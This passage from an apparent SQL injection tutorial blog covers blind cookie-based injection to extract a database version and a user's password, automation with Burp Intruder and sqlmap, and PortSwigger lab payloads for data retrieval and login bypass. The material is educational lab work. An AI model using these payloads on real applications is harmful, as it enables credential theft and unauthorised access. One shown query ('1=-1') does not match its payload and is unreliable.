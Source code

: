 In our case, if we send `Cookie: session=<cookie>' and substring('a',1,1) = 'a'#` which will return normal Content-Length. That’s because the string the 1st character from position 1 is equal to 'a'.  
So we’d like to compare the provide character with the data in the DB.

##### Version Testing
1. Send `Cookie: session=<cookie>' and substring((version()),1,1) = '8'#` which return normal Content-Length (1027).  
 # That indicates the version start with 8.
2. After testing each number of the version one by one. we retrieve the SQL version with `Cookie: session=<cookie>' and substring((version()),1,5) = '8.0.4'#` that return normal Content-Length (1027)  

#### Burp Suite Intruder

Since password can be long and complex, we can utilize the Burp Intruder perform the automatic task.
1. Send the request to intruder
   ~~~
   Cookie: session=<cookie>' and substring((select password from injection0x02 where username = 'jeremy'),1,1) = 'payload'#`
   ~~~
2. Use all Alphanumeric character as payload  
![Burp Intruder Payload](https://rencybersec.github.io/assets/img/githubpost/sqli_1.png){: .mx-auto.d-block :}  

3. Determine the correct character by studying the Content-Length  
![Use "Welcome" and Length to determine the success in this case!](https://rencybersec.github.io/assets/img/githubpost/sqli_2.png){: .mx-auto.d-block :}  

#### SQL Map
~~~
- $ python3 sqlmap.py -r <Path_to_Target_File> --level=2  
 # --level=2 meant for cookie parameter injection.  
- $ python3 sqlmap.py -r <Path_to_Target_File> -T <Table_name> --dump
~~~

### Lab
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#sql-injection) to show how this vulnerability can lead to:

#### 1. SQLi vulnerability in WHERE clause allowing retrieval of hidden data 
Perform a SQL injection that causes the application to display one or more unreleased products.
   ~~~
   URL: https://vulnerable.net/filter?category=' OR 1=1-- 
   Query: SELECT * FROM products WHERE category = '' OR 1=-1 -- AND released = 1 
   ~~~

#### 2. SQLi vulnerability allowing login bypass
Perform a SQLi that logs in to the web application as the administrator.  
I receive "Internal Server Error" after submitting a single quote `'` in username field, which I can determine the application is vulnerable to the injection with single quote `'`.  
Then I tried commenting out the rest of the syntax by adding `--`, which allows me to bypass the password requirement.
   ~~~
   Username: administrator' --
   Query: SELECT firstname FROM users WHERE username='administrator' --' and password=''
   ~~~
